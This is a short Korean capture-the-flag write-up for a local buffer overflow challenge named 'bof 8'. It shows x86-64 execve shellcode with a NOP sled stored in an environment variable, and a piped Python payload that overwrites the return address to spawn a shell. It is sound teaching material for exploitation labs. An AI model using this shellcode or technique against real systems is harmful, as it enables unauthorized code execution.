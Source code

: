 # bof 8

일단 다른 문제와 다르게 getenv를 통해서 환경변수를 이용하라고 어필하고 있으니 환경변수를 이용해 보도록하자

환경변수는 다음과 같은 코드로 작성할 수 있다.

``` bash
$ export SHELLCODE=`python -c 'print "\x90"*1000+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

성공확률을 높이기 위해 Red-sled, 즉 \x90을 채워 넣었으며 나머지는 쉘코드이다.

우리는 환경변수에 shellcode를 삽입하였기 때문에 ret 주소에 해당 주소를 넣어주면 그만이다. 따라서 buffer(8 byte)+SFP(8 byte) = 16 byte 를 dummy로 채워주고 ret 주소는 printf를 통해 출력되는 주소를 넣어주면 된다. 

따라서 터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ (python -c 'print "a"*16+"\xe1\xea\xff\xff\xff\x7f\x00\x00"';cat) | ./bof8
```